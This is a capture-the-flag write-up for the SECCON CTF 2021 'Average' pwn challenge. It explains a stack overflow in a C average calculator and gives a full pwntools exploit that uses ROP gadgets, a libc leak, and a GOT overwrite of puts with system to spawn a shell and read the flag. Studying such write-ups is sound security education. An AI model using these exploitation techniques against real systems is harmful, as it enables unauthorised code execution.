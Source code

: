 ```yaml
---
title: 'Average - SECCON CTF 2021'
permalink: /writeups/seccon2021/average
---
```


## Average Calculator

> 129
>
> Average is the best representative value!
> `nc average.quals.seccon.jp 1234`
>
> Author: kusano
Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _rop_ _got-overwrite_

## Analysis

### Checksec

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### File command output

```bash
    ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked
```

So we are given a binary with no PIE and no canary. In this conditions we can think of trying a simple buffer overflow or/with Return from oriented programing. Also, as it is dynamically link, we will need to leak libc base adress in order to call either gadjets or libc functions.

## Finding the vulnerability

```c
int main()
{
    long long n, i;
    long long A[16];
    long long sum, average;

    alarm(60);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    printf("n: ");
    if (scanf("%lld", &n)!=1)
        exit(0);
        
    for (i=0; i<n; i++)
    {
        printf("A[%lld]: ", i);
        if (scanf("%lld", &A[i])!=1)
            exit(0);
        //  prevent integer overflow in summation
        if (A[i]<-123456789LL || 123456789LL<A[i])
        {
            printf("too large\n");
            exit(0);
        }
    }

    sum = 0;
    for (i=0; i<n; i++)
        sum += A[i];
    average = (sum+n/2)/n;
    printf("Average = %lld\n", average);
}
```

As we can see, the for loop runs n times without any array bounds check whatsoever. Furthermore, we provided de n value. That means we can right outside de buffer. We have just found our vulnerability!!!!
However, when we start writing outside the buffer, trying to reach rip, we will overwrite the n value. We need to be carefull with that, since it might cause the loop to end earlier than expected! There's another detail worth mentioning, the program checks if the value written to A[i] is valid (in this case, valid means -123456789 < A[i] < 123456789). To bypass this, we will have to be creative, but we'll get to it latter.
Last but not least, we risk overwriting the loop's i variable with our buffer overflow, thus we need to be carefull with that one as well.

## Exploit

After some trial and error, I was able to conclude that the n value is stored immediately after the buffer (that is A[16]) and the i is stored a little further down, A[19]. Having said that, we just need to watch for those specific writes and we should be good.

```python
#!/usr/bin/env python3
from pwn import *
from binascii import hexlify
from struct import * 
import os
context(arch="amd64", os="linux")
binary_path = "./average"
binary = ELF(binary_path)

SERVER = "average.quals.seccon.jp"
PORT = 1234
local = True 
if(len(sys.argv) > 1 and "-remote" == sys.argv[1]):
    local = False

if local:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io = process(binary_path,timeout=9999)
else:
    libc = ELF("./libc.so.6")
    io = remote(SERVER, PORT, timeout=9999)
```

This is a standard pwntools header.
Now to leak libc base address, we need to call puts with puts adress as an argument and return to main for a second run. However this time we will know the libc base adress and the exploitation will be a simple ret2libc.

```python
def overflow(exec = 1):
    numbers = [i for i in range(1,101)]
    k = 0
    i = 0
    while(k < n):
        if(i == 16):
            io.sendline(bytes(str(n),"ASCII"))
        elif(i == 19):
            io.sendline(bytes(str(k),"ASCII"))
        else:
            if(k == 21):
                if(exec == 1):
                    io.sendline(bytes(str(0x00000000004013a3),"ASCII")) 
                    io.sendline(bytes(str(binary.got.puts),"ASCII")) 
                    io.sendline(bytes(str(binary.plt.puts),"ASCII")) 
                    io.sendline(bytes(str(binary.sym.main),"ASCII")) 
                    k += 3
                else:
                    k += setup(binary.bss(0x100))
            elif(k == 27 and exec !=1):
                k += setup(binary.got.puts)
            elif(k == 33 and exec != 1):
                io.sendline(bytes(str(0x00000000004013a4),"ASCII"))
                io.sendline(bytes(str(0x00000000004013a3),"ASCII"))
                io.sendline(bytes(str(binary.bss(0x100)),"ASCII"))
                io.sendline(bytes(str(binary.plt.puts),"ASCII"))
                k += 3
            else:
                io.sendline(bytes(str(numbers[k]),"ASCII"))
        k += 1
        i = (i+1) % 20   
```

This my exploit's main function. Since we are on the first run of main, we will look at what happens when variable exec (short for execution) is 1 (its default value). My while loop will run as many times as n (the n value from the binary that I mentioned above), so each iteration writes on buffer's A[k]. I figgured out that writing on A[21] overwrites the rip, and gives us control over the code execution. To correctly call puts with the arguments that we want, we will have to rely on one of the gadjets mentioned bellow.
Note: the variable i is used to account for the loop's i and n overwrites, allowing to continuously write on the buffer.

```python
0x00000000004013a3 : pop rdi ; ret

0x00000000004013a1 : pop rsi ; pop r15 ; ret
```

Since the argument passed to put goes in rdi register, we will use the first gadjet (we will discuss the second one later). Keeping that in mind, we set up the puts call by giving puts its on adress and the adress of main to return for the second run. Having dealt with libc, we move on to the second run of main.

For the second run, we will use a simular logic. Only this time, we will try to call system('/bin/sh) to get our shell. The verification that I mentioned early, will block us from writting directly on the stack using our buffer overflow (as system adress >123456789, thus causing the binary to call exit). Note that in the second run the exec variable will be equal to 2 (to make sure that it won't execute the same code as before).

After thinking for a while, I came to the conclusion that I can use scanf (in the binary corresponds to the symbol __isoc99_scanf), to overwrite the got entry for puts with system address. This way, we can call puts with '/bin/sh' and get out shell. Since, we will need to write /bin/sh in memory and perform the got overwrite, I wrote a function to ease the process.

```python
def setup(memory):
    adress = [0x00000000004013a1,0,1,0x00000000004013a3,0x0000000000402008,0x401070]
    adress[1] = memory
    for i,number in enumerate(adress):
        io.sendline(bytes(str(number),"ASCII"))
    return i  
```

Looking at the disassembled code for the scanf call (I used gdb for this part), we can note that scanf takes two arguments: the format string in rdi and the memory place to store the value that was read in rdi. Setting up rdi is easy, we have done that before. To set up the rsi, we will rely on the second gadjet that ROPgadjet gave us. This function simply sends the adresses to call those gadjets and in the end calls scanf.
Taking a look into my overflow function for the second run, it is worth mentioning that it also writes /bin/sh in the bss section + 0x100 (to give stack room for the system function).
After having everything set up, we call the pop rdi gadjet one last time, to set it to the adress of /bin/sh, and call system. We should have a shell by now!!!
Note: I decided to use the same format string as the binary, not only because that adress can be found easily using gdb, but also, because it reads a long long integer (which is exactly what we need). Finally, every 6 writes on the buffer A, we write the return value of the function that we call, hence my exploit if's are distance by 6.

```python
n = 25
io.sendline(bytes(str(n),"ASCII"))
overflow()
io.recvuntil(b'Average')
io.recvline()
leak = io.recv(6)
libc.address  = u64(leak+ b'\0\0') - libc.sym.puts
log.info(f"libc adress: {hex(libc.address)}")
n = 37
io.sendline(bytes(str(n),"ASCII"))
overflow(2)
io.sendline(str(int('0x' + hexlify(b'//bin/sh'[::-1]).decode(),16)).encode())
io.sendline(bytes(str(libc.sym.system),"ASCII"))
io.recvuntil(b'Average')
io.recvline()
io.sendline(b"cat flag.txt")
io.interactive()
```

This is just the end of my exploit, where we just send the n values for both runs, calculate the libc base adress with the leaked value and get the flag.

```bash
[+] Opening connection to average.quals.seccon.jp on port 1234: Done
[*] libc adress: 0x7fae08385000
[*] Switching to interactive mode
SECCON{M4k3_My_4bi1i7i3s_4v3r4g3_in_7h3_N3x7_Lif3_cpwWz9jpoCmKYBvf}
```

Remember that this is one of many possible solutions.

